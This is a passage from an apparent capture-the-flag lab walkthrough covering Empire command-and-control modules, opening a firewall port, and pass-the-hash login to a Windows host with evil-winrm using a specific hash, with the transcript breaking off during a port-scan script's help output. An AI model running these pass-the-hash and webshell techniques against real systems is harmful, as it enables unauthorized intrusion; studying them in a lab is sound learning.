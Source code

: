 Open up the port in the firewall:

```
firewall-cmd --zone=public --add-port 22903/tcp
```

Now we can open up BurpSuite and execute our payload with the webshell we uploaded earlier.

## Task 30: [Command and Control] Empire: Modules

Now we can start to look into some of the modules.

```
usemodule
searchmodule
```

Since we already have root, we won't need to use any of these privilege escalationg modules, but they are good to know.

A useful builtin module is winPEAS.

## Task 31: [Command and Control] Conclusion

Read the conclusion.

## Task 32: [Personal PC] Enumeration

Now we are moving onto the final device, and will need to work on Anti-virus evasion.

First, we must understand the scope of the final target.

Luckily for us, we have evil-winrm to help with enumeration.

We can use the upload/download options to upload to .150 along with the Empire Port Scanning script.

```
upload LOCAL_FILEPATH REMOTE_FILEPATH
download REMOTE_FILEPATH LOCAL_FILEPATH
```

However, evil-winrm actually happens to have a -s option in the help menu that will allow us to select a PowerShell script from our local directory.

```
evil-winrm -u USERNAME  -H HASH -i IP -s /path/script.ps1
```

The path to the Empire scripts if installed in opt are located at (/opt/Empire/data/module_source/situational_awareness/network/).

Note: You can also grab this tool in the zipfile included in the beginning.

Alright, let's go ahead and pass-the-hash signing in with evil-winrm.

```
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.72.150 -s /opt/Empire/data/module_source/situational_awareness/network/                   

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan.ps1
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-Help Invoke-Portscan

NAME
    Invoke-Portscan

SYNOPSIS
```